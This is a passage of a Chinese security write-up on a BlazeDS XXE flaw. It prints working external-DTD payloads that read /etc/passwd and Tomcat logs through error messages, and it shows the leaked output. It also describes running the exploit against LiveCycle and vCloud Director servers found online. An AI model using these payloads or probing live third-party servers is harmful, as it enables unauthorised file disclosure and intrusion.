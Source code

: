 ```
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
[...]
jetty:x:131:143::/usr/share/jetty:/bin/false
............Bu......../Client.Message.Encoding.I707E4DB6-DB0B-6FED-EC4C-01259078D48B
[+] Done
```

可以看到`/etc/passwd`文件内容被通过报错信息爆出，作者所使用的利用代码中调用了一个外部的DTD文件：http://somewhere/blazeds.dtd，其内容如下：

```
#!bash
<!ENTITY % yolo SYSTEM 'file:///etc/passwd'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM '_://%yolo;'>">
%c;
%rrr;
```

外部DTD中，首先定义了一个参数实体%yolo；然后在参数实体中%c中对其进行了引用；在调用%rrr;时，由于rrr所调用的协议“_”并不被java所支持，导致报错，整个URL全部出现在报错信息中，`/etc/passwd`的内容就藏在其中。同样，还可以用来读取tomcat的日志：

```
#!bash
<!ENTITY % yolo SYSTEM 'file:///proc/self/cwd/../logs/catalina.YYYY-MM-DD.log'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM '_://%yolo;'>">
%c;
%rrr;
```

# 0x04 漏洞利用之三 （使用了BlazeDS的软件产品）

------

原作者在文中提到了，一些软件产品中也使用了BlazeDS，这些产品如果没有升级打补丁，同样也会受到影响。这些软件包括来自Adobe的ColdFusion 和 LiveCycle Data Services，Vmware的vCenter Server, vCloud Director 和Horizon View。为了对这一说法进行验证，我搜索了一台LiveCycle Data Services的服务器，如下图：

![p1](http://drop.zone.ci/images_result/images/20151224000824166481106.png)

抓包得到amf的接口地址，使用利用脚本对该接口进行测试，结果如下图所示：

![p2](http://drop.zone.ci/images_result/images/2015122400082639201249.png)

同样，我又找到一台Vmware的vCloud Director，同样发现存在问题：

![p3](http://drop.zone.ci/images_result/images/2015122400082789429338.png)

# 0x05 漏洞利用之四（使用了BlazeDS的客户端软件）

------

大家常用的BurpSuite就是其中之一，躺枪！虽然最新版本的BurpSuite已经修复了此问题，但是大多数同学手中的版本可能并不是最新版本。根据原作者的说明，一起来看看这个漏洞的效果，由于我本机是windows，所以利用代码是windows的。 首先，创建一个html文件.
